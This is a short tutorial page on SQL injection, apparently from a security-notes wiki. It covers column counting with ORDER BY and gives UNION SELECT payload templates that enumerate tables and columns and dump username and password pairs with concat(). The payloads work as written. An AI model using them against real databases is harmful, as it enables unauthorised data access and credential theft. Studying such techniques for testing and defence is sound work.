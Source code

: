```yaml
---
description: SQL Injection (SQL)
---
```


# SQLI

Occurs when user input is inputted into the SQL query string without properly sanitizing or filtering the input.

[Here is a nice SQLi cheat sheet ](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

If you find a vulnerable endpoint it’s probably best to use a tool like [SQLmap](https://github.com/sqlmapproject/sqlmap)

#### Popular Databases

* MySQL, MSSQL, PostgreSQL, Oracle.

### SQLi testing

If you ever see that error you know there is SQL injection:

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption><p>MySQL error indicating SQL injection</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption><p>PostgreSQL SQL error</p></figcaption></figure>

Inject a query that sorts the results by a column we specified like column 1, or column 2 until we get an error saying (the column specified does not exist):

* using ' order by\<Number here>--
* for example, if we failed at order by 3, this means the table has 2 columns

#### List of tables in the database

Use union select to list tables in the database:

payload: ' union select NULL, table\_name from information\_schema.tables--

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

#### List of columns in the users' table

payload: ' union select NULL, column\_name from information\_schema.columns where table\_name = '\<Table Name Here>'--

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

#### Dumping usernames and passwords of users

use the “concat()” function To return the password and username in the same column.

payload: ' union select NULL, concat(\<Column Name>,':',\<Column Name 2>) from \<Table Name>--

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

